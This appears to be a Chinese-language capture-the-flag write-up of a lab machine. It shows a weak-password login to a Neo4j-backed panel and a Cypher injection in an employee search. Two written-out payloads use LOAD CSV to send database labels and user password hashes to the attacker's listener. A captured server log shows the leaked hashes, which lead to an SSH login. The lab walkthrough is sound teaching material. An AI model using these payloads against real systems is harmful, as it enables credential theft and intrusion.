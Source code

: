 ### 8001端口

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/130fe42e-1a83-b91a-1484-a4b33ea15541.png)

看见是一个简陋的登录框，弱口令就登进去了

	admin:admin

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/8acd91fd-4673-e370-0f20-5c5da083826b.png)

在dashboard中可以看到它使用neo4j

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/1a0d58d4-6084-7893-6e4a-a6e88fe35a8b.png)

## 本地横向移动 -> john

在Employee可以搜索，但是这里存在[注入](https://hackmd.io/@Chivato/rkAN7Q9NY)

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/fa6aff0d-49e8-17df-7117-1f22826a4f0f.png)

查表

	a' CALL db.labels() YIELD label AS d LOAD CSV FROM 'http://10.10.14.18:8000/'+d AS y RETURN y//

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2862dadb-d219-457e-a307-6a3c3ca35a00.png)

获取key的属性

	a' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.18:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //

```shell
10.10.11.210 - - [26/Dec/2023 18:21:02] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [26/Dec/2023 18:21:03] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [26/Dec/2023 18:21:04] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [26/Dec/2023 18:21:04] "GET /?username=john HTTP/1.1" 200 -
```

爆john的密码，CrackStation出了明文密码

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4430597c-cba3-46dc-de4b-2cff58dde986.png)

使用这组凭据我们能够通过ssh登录john

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/fb0245d8-86de-767d-bb55-57b2a18d37d3.png)

拿到user flag

## 本地权限提升

sudo -l

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/757509fe-4bbc-1be5-83ed-4d7eecb26255.png)
